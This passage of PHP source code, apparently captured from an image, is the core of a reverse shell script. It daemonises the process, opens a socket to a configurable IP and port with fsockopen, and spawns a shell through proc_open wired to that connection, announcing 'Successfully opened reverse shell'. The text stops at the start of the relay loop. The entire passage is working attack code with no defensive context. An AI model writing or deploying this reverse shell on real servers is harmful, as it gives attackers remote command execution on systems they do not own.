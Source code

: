```php

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
```
